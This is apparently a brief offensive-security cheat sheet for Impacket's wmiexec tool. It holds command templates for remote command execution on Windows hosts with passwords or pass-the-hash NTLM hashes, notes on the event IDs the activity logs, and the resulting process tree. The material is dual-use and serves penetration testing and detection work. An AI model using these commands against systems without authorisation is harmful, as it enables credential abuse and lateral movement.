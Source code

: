 ### source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py  

### executes single command
```
impacket-wmiexec <domain>/<user>:<password>@<rhost> <command>
```

### use hashes and launch semi interactive powershell
```
impacket-wmiexec -hashes :<ntlmHash> <domain>/<user>@<rhost>
```

### opsec considerations - Windows Security Log Event IDs
```
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple
```

### running processes
```
wininit.exe
└── services.exe
    └── svchost.exe
        └── wmiprvse.exe
            └── cmd.exe
                └── Conhost.exe
```

